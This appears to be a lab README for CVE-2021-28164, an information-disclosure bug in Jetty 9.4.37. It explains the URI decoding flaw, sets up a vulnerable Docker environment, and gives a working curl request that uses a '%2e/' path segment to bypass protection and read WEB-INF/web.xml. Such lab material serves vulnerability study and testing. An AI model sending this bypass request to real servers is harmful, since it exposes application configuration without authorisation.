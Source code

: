 # Jetty Ambiguous Paths Information Disclosure Vulnerability (CVE-2021-28164)

[中文版本(Chinese version)](README.zh-cn.md)

Eclipse Jetty is a Java web server and Java Servlet container.

Jetty release 9.4.37 introduced a more precise implementation of RFC3986 with regards to URI decoding, together with some new compliance modes to optionally allow support of some URI that may have ambiguous interpretation within the Servlet specified API methods behaviours. The default mode allowed % encoded . characters to be excluded for URI normalisation, which is correct by the RFC, but is not assumed by common Servlet implementations.

The default compliance mode allows requests with URIs that contain `%2e` or `%2e%2e` segments to access protected resources within the WEB-INF directory. For example a request to `/context/%2e/WEB-INF/web.xml` can retrieve the web.xml file. This can reveal sensitive information regarding the implementation of a web application.

This bug is fixed on version 9.4.39.

Reference links.

- https://github.com/eclipse/jetty.project/security/advisories/GHSA-v7ff-8wcx-gmc5
- https://xz.aliyun.com/t/10039

## Vulnerable Application

Execute the following command to start a Jetty 9.4.37 server.

```
docker-compose up -d
```

After the server starts, visit ``http://your-ip:8080`` to see an example page.

## Exploit

The sensitive file web.xml is not accessible through `/WEB-INF/web.xml`.

![](1.png)

Use `%2e/` to bypass the restriction:

```
curl -v 'http://192.168.1.162:8080/%2e/WEB-INF/web.xml'
```

![](2.png)
